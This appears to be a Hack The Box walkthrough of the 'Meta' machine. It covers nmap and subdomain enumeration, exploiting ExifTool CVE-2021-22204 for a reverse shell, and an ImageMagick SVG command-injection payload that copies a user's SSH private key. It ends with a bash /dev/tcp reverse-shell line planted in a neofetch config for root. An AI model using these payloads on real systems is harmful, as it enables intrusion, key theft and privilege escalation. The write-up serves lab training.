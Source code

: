 ```yaml
---
title: Meta
date: 2021-03-14
tags:
  - HTB Writeup
---
```


![Meta](meta.png)

## Introduction

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap Service Scanning

```
➜  HTB git:(master) ✗ nmap -Pn -sV -sC 10.10.11.140

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-15 12:33 IST
Nmap scan report for 10.10.11.140
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (EdDSA)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds
```

We can see a Http server running on Port 80 and ssh service running on port22.

### Checking on port 80:

We got the site url : ```artcorp.htb```

Open ```/etc/hosts``` file and add ```10.10.11.140    artcorp.htb```
```
sudo nano /etc/hosts
```

Nothing seems interesting on the website.Lets do a subdomain fuzz using ```ffuf```.I used the following [wordlist.](https://github.com/danielmiessler/SecLists)

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://artcorp.htb/ -H "Host:http://FUZZ.artcorp.htb" -mc all -fc 404,400

```

Yep, found a subdomain ```dev01```.

Open ```/etc/hosts``` file and add ```10.10.11.140    dev01.artcorp.htb```
```
sudo nano /etc/hosts
```

We got a web interface of ```MetaView.``` Uploading a random file gave
![metaview](metaview.png)
Uploading a jpg/png file gave:

![jpg](content.png)

Hmmm...this output looks familiar.```Exiftool``` is used for reading, writing and editing meta information in a wide variety of files.
Lets check the output of Exiftool on our local machine.

```
➜  Meta git:(master) ✗ exiftool image.jpg   
ExifTool Version Number         : 10.80
File Name                       : image.jpg
Directory                       : .
File Size                       : 46 kB
File Modification Date/Time     : 2022:03:16 12:22:06+05:30
File Access Date/Time           : 2022:03:16 12:22:51+05:30
File Inode Change Date/Time     : 2022:03:16 12:22:06+05:30
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Image Width                     : 750
Image Height                    : 467
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x467
Megapixels                      : 0.350

```

Yep we are on the right track. The web interface is using Exiftool to give info of jpg/png files.

## Exiftool | Reverse Shell
Lets search for any vulnerabilities of Exiftool.Found some info here. [Vulnerability](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).
This enabled a malicious actor to perform a Remote code Execution attack.Let's exploit it.

Found the exploit [here](https://github.com/convisolabs/CVE-2021-22204-exiftool). Download the exploit.py,configfile and image.jpg.

* Change the port and ip in exploit.py
* Run command ```python3 exploit.py```
* Open up a listener on the above port ```nv -nvlp <port-no>```

This will generate a malicious image file. Upload it in the metaview web-interface.Yeah,we got the Reverse Shell.

```
$ whoami
www-data

$ pwd
/var/www/dev01.artcorp.htb/metaview


$ cd /home
$ ls
thomas

```

We have one user thomas.

## User Privilege

Running [LinPeAs](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to get system information.

Found this interesting info:

```
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
/usr/local/bin/convert_images.sh
/usr/bin/gettext.sh
```

Migrating and seeing the content of the files:

convert_images.sh
```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

It uses mogrify. Lets do some research and find its vulnerabilities(if any). It is similar to ImageMagick tool and used for
the same purpose.Found one interesting thing [here](https://www.exploit-db.com/exploits/39767). It has CVE-2016-3714 - Insufficient shell characters
 filtering leads to (potentially remote) code execution.

Lets exploit it.

If we look properly ```convert_images.sh``` file migrates to /var/www/dev01.artcorp.htb/convert_images/ and execute mogrify 
on all the files present in the directory. So lets create a .svg file as described [here](https://www.exploit-db.com/exploits/39767).

We also see that there is .ssh folder in /home/thomas which we can't access.Lets try to access that folder using our .svg file.

1. Save this file in /var/www/dev01.artcorp.htb/convert_images/ with .svg extension.

```
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa) > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

2. Migrate to /usr/local/bin and execute convert_images.sh

3. Go to /dev/shm and you will find ```id_rsa``` file with user as thomas.

```
$ ls -al
total 4
drwxrwxrwt  2 root   root     60 Mar 24 04:14 .
drwxr-xr-x 16 root   root   3080 Mar 24 02:02 ..
-rw-r--r--  1 thomas thomas 2590 Mar 24 04:14 id_rsa
```

Store the content of id_rsa in local file and used it to ssh as thomas and read the flag.

## System Own

Let's check if we have any commands to run as sudo user.

```
sudo -l 
```

```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

```

This shows that user thomas can run ```neofetch command``` as sudo without any password.

Searched if neofetch can be used to get reverse shell and found some relevant info [here](https://gtfobins.github.io/gtfobins/neofetch/#sudo)

There was a .config folder in thomas home directory. Found neofetch config file there. 
Now I added a reverse shell command at the starting of the file.

```
/bin/bash -c "bash &>/dev/tcp/10.10.16.11/4444 <&1"
```

I want that if I run neofetch that it uses this config file I have changed. So for that I changed the base path
to load config file by the following command.

```
export XDG_CONFIG_HOME=/home/thomas/.config
```
#
```
which neofetch 
/usr/bin/neofetch
```

So I opened a listener at my local system and ran the following command from meta.

```
sudo -u root /usr/bin/neofetch
```

and Yipee got the root shell.